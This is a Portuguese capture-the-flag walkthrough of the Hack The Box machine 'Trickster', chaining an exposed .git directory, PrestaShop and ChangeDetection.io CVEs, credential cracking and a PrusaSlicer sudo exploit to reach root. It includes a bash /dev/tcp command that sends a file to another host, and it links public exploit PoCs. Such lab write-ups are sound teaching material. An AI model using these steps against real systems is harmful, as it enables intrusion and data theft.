










# Trickster

## Resumo

Essa máquina permite acesso inicial ao identificar um diretório .git exposto, e utilizar uma CVE para obter acesso como www-data. Após isso, é necessário escalar privilégios lateralmente por meio de um pivoting para um docker executando o serviço ChangeDetection.io, e utilizar uma outra CVE para obter uma shell ao docker em execução. No docker, estão disponíveis arquivos de backup do ChangeDetection, os quais ao serem restaurados acabam revelando as credenciais do usuário adam. Como usuário adam, está disponível a execução de um software de manipulação de arquivos de impressora 3D como root. Entretanto, esse software é vulnerável a um exploit que permite a execução arbitrária de comandos, o que permite escalar privilégios como root e obter a flag final.

## Reconhecimento

Assim que obtive o endereço IP da máquina, realizei uma varredura de portas utilizando o Rustscan e o Nmap, identificando os seguintes serviços em execução na máquina:

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCk493Dw3qOjrvMEEvPT6uj4aIc7vb9chLLQr0Wzjiaf8hZ1yXMO6kwPuBjNaP6GouvFd0L7UnpacFnIqkQ9GOk=
|   256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ3pOUJRCVS6Y1fhIFs4QlMFAh2S8pCDFUCkAfaQFoJw
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://trickster.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como apontado pelo Nmap, ao tentar acessar a porta 80 ocorre um redirecionamento para `http://trickster.htb`, sendo necessário adicionar esse endereço ao arquivo `/etc/hosts` da minha máquina Linux:

```bash
echo "${IP_ALVO} trickster.htb" | sudo tee -a /etc/hosts
```

Agora é possível navegar para esse domínio para analisar o conteúdo da página:

<figure><figcaption><p>HTB Trickster - Página inicial</p></figcaption></figure>

O resultado é uma página estática que não contém nenhuma informação relevante, além de um link que redireciona para o subdomínio `shop.trickster.htb`. Novamente, foi necessário adicionar esse endereço ao arquivo `/etc/hosts` da minha máquina Linux. Alterei a linha adicionada anteriormente para obter esse resultado:

```bash
# Endereço IP apenas para exemplificar, troque pelo real endereço da máquina!
10.10.XX.XX trickster.htb shop.trickster.htb
```

Acessando a página `http://shop.trickster.htb`, é possível encontrar um e-commerce que utiliza o PrestaShop:

<figure><figcaption><p>HTB Trickster - E-commerce</p></figcaption></figure>

## Varredura

Realizando uma varredura com o Feroxbuster, foi possível encontrar vários arquivos e diretórios, porém um diretório `.git` foi o que mais chamou atenção. Acessando esse diretório pelo navegador, é listado o índice da página:

<figure><figcaption><p>HTB Trickster - .git</p></figcaption></figure>

Com isso, baixei o diretório utilizando o `wget` na minha máquina para analisar. Acessando o diretório baixado e utilizando o comando `git log`, o seguinte commit é revelado:

```log
commit 0cbc7831c1104f1fb0948ba46f75f1666e18e64c (HEAD -> admin_panel)
Author: adam <adam@trickster.htb>
Date:   Fri May 24 04:13:19 2024 -0400

    update admin pannel
```

Utilizando o comando `git status`, é possível observar que existe um diretório que fazia parte do repositório, porém que não foi baixado:

<figure><figcaption><p>HTB - diretório do painel de admin exposto</p></figcaption></figure>

## Exploração

Pesquisando sobre o PrestaShop, aplicação de e-commerce utilizada pela página, é possível encontrar uma [CVE](https://nvd.nist.gov/vuln/detail/CVE-2024-34716) em que é necessário apenas o endereço do painel de admin do PrestaShop e um nome de usuário (que encontramos anteriormente como autor do commit). Com isso, é possível executar a [PoC](https://github.com/aelmokhtar/CVE-2024-34716) disponível no GitHub e obter acesso à máquina como usuário `www-data`.

## Pós-Exploração

### Escalando Privilégios Lateralmente

#### Usuário James

Navegando pelos arquivos do PrestaShop como o usuário `www-data`, é possível encontrar informações sensíveis no arquivo `~/prestashop/app/config/parameters.php`. Nesse arquivo, é revelado um usuário e senha para o banco de dados da aplicação:

<figure><figcaption><p>HTB Trickster - parameters.php</p></figcaption></figure>

Após conectar ao banco de dados, é possível extrair o usuário `adam@trickster.htb` e seu hash de senha:

<figure><figcaption><p>HTB Trickster - Banco de dados comprometido</p></figcaption></figure>

Após utilizar o John para crackear esses hashes, foi possível obter acesso SSH ao usuário `james`, sendo possível obter a primeira flag.

#### Usuário Adam

Após um processo de reconhecimento na máquina, identifiquei um contêiner Docker em execução na máquina. Por meio de um Ping Sweep, foi possível descobrir o endereço IP do contêiner. Transferindo o nmap para a máquina, é possível varrer os serviços desse contêiner e encontrar a porta 5000 aberta Realizando encaminhamento de porta via SSH, obtive acesso à porta. 5000 do contêiner:

```bash
ssh james@trickster.htb -L 5000:172.17.0.2:5000
```

Acessando essa página, o serviço em execução é o [ChangeDetection.io](https://changedetection.io/), e é possível se autenticar com a senha do usuário `james`.

<figure><figcaption><p>HTB Trickster - ChangeDetection.io</p></figcaption></figure>

Pesquisando sobre esse serviço, foi possível encontrar uma [CVE](https://nvd.nist.gov/vuln/detail/CVE-2024-32651) ao qual ele é vulnerável e uma [PoC](https://github.com/s0ck3t-s3c/CVE-2024-32651-changedetection-RCE) que explora essa vulnerabilidade. Executando a PoC conforme as instruções do GitHub, é possível obter acesso como usuário `root` ao contêiner (lembrando que o listener do netcat deve ser executado na máquina do alvo, pois o contêiner não possui acesso à internet):

<figure><figcaption><p>HTB Trickster - acesso root ao contêiner</p></figcaption></figure>

Navegando pelo contêiner, é possível encontrar um diretório `datastore`, em que são armazenados os arquivos do ChangeDetection, incluindo os backups que podem ser encontrados no diretório `Backups` em formato ZIP. O contêiner possui poucos binários que permitem a transferência de arquivos, então utilizei o `/dev/tcp/{IP}/{PORT}` do BASH para baixar o arquivo para máquina do alvo:

```bash
# Na máquina de origem
cat "./${NOME_ARQUIVO}" > /dev/tcp/{IP_ALVO}/1337

# Na máquina de destino
nc -lnvp 1337 > "/tmp/${NOME_ARQUIVO}"

# PS: (troque ${NOME_ARQUIVO} pelo nome do arquivo)
```

Com isso, eu utilizei o `scp` para baixar o arquivo ZIP de backup para minha máquina:

```bash
scp james@trickster.htb:/tmp/${NOME_ARQUIVO} ./${NOME_ARQUIVO}
```

Pesquisando na documentação do ChangeDetection, encontrei um [tutorial](https://github-wiki-see.page/m/dgtlmoon/changedetection.io/wiki/Restoring-backup-files) de como restaurar um backup. Com isso, subi um contêiner do ChangeDetection na minha máquina e restaurei o backup extraído do alvo. Após restaurar o backup, acessei a página do ChangeDetection em execução na minha máquina e encontrei uma cópia do arquivo `parameters.php` (que encontramos inicialmente), porém dessa vez com as credenciais do usuário `adam`:

<figure><figcaption><p>HTB Trickster - credenciais do usuário adam</p></figcaption></figure>

### Escalando Privilégios Verticalmente

Após acessar a máquina via SSH com o usuário `adam` e realizar um breve reconhecimento, é possível identificar por meio do comando `sudo -l` que ele pode executar o comando `/opt/PrusaSlicer/prusaslicer` como superusuário. Pesquisando sobre a ferramenta `PrusaSlicer`, é possível encontrar um exploit que permite execução de código como o usuário que está executando a ferramenta. Por fim, basta [clonar o repositório do GitHub](https://github.com/suce0155/prusaslicer_exploit) com o exploit, subir os arquivos para a máquina do alvo, executar o `PrusaSlicer` como root e esperar a shell reversa:

<figure><figcaption><p>HTB Trickster - Shell como root</p></figcaption></figure>
